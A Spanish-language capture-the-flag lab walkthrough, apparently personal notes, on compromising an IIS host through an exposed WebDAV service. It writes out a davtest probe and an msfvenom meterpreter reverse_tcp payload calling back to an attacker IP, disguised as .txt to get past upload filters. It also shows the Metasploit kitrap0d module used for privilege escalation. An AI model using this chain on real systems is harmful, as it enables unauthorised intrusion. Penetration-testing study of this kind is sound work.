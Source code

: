 Hacemos el reconocimiento con nmap:
![[Pasted image 20231201112011.png]]
Y dentro del reporte de nmap estamos viendo que tenemos webdav habilitado, lo cual significa que se proporcionan funcionalidades adicionales más allá de las capacidades básicas de HTTP, tales como la edición remota y la gestión de archivos; y en este caso podemos ver que podemos subir archivos al servidor:
![[Pasted image 20231201112022.png]]
Por lo que hay una tool llamada davtest que nos permite saber qué tipo de archivos podemos subir al servidor:
```python
davtest -url http://10.10.10.15
```
![[Pasted image 20231201112041.png]]
El siguiente paso será generar un payload con msfvenom de asp (que es compatible con IIS) pero con extensión .txt para que podamos subirlo al servidor:
```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.24 LPORT=444 -f aspx -o shell.aspx.txt
```
![[Pasted image 20231201112542.png]]
Y con una tool llamada cadaver vamos a subir el archivo malicioso, y al estar subido, le cambiamos el nombre dejándole la extensión .asp:
![[Pasted image 20231201112556.png]]
Y ahora nos ponemos en la escucha con metasploit, ya que queremos recibir una sesión de meterpreter, por lo que ejecutamos la shell.aspx que tenemos subida en el servidor:
![[Pasted image 20231201112751.png]]
![[Pasted image 20231201112740.png]]
Una vez dentro, ejecutamos el módulo de local exploit suggester [[4- Escalada de Privilegios Windows en Metasploit]]:
![[Pasted image 20231201112848.png]]
Le cargamos la sesión:
![[Pasted image 20231201112918.png]]
Y lo ejecutamos, donde nos habrá encontrado los siguientes exploits, y nosotros usaremos el primero de ellos:
![[Pasted image 20231201113143.png]]
```python
use exploit/windows/local/ms10_015_kitrap0d
```
Y ya somos root:
![[Pasted image 20231201113210.png]]

